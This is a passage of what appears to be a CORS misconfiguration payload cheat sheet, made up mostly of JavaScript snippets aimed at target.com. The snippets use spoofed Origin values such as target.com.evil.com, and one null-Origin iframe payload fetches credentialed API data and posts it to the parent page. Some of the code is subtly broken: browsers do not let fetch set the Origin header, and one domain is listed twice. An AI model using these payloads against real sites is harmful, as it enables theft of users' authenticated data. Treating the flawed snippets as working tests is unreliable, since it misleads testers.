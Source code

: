 ```javascript
// Test for reflected Origin header
fetch('https://target.com/api/data', {
  headers: {
    'Origin': 'https://target.com.evil.com'
  }
})
.then(response => {
  console.log('Access-Control-Allow-Origin:', response.headers.get('Access-Control-Allow-Origin'));
});
```

```javascript
// Test with malformed Origin
fetch('https://target.com/api/data', {
  headers: {
    'Origin': 'target.com.attacker.com'
  }
});
```

---

## Null Origin Payloads

```javascript
// Test with null Origin
var iframe = document.createElement('iframe');
iframe.src = 'data:text/html,<script>fetch("https://target.com/api/data", {headers:{"Origin":"null"},credentials:"include"}).then(r=>r.text()).then(d=>parent.postMessage(d,"*"))</script>';
document.body.appendChild(iframe);

window.addEventListener('message', function(e) {
  console.log('Received data:', e.data);
});
```

---

## Prefix Matching Payloads

```javascript
// Test for domain prefix vulnerabilities
const domains = [
  'https://target.com.attacker.com',
  'https://attacker-target.com',
  'https://target.com.attacker.com',
  'https://targetattacker.com'
];

domains.forEach(domain => {
  fetch('https://target.com/api/data', {
    headers: {
      'Origin': domain
    }
  })
  .then(response => {
    console.log(`Testing ${domain}:`, response.headers.get('Access-Control-Allow-Origin'));
  });
});
```

---